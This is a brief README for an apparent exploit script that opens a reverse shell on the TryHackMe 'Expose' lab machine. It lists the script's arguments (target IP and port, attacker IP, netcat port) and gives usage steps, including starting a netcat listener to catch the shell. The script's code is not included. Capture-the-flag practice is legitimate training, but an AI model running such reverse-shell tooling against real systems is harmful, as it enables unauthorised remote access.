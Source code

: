 # Expose-Tryhackme
Python script to get direct reverse shell of expose machine on tryhackme

-u = website's IP
-p = port on which website is running like 1337
-a = attacker's IP , Your tun0 IP
-nc = Netcat port , ex : 9001

#### Steps : 
*1. run : rlwrap nc -nlvp {port}*\n
*2. python3 shell.py -u {value} -p {value} -a {value} -nc {value}*\n
*Enjoy you shell*\n

#### THANKYOU!
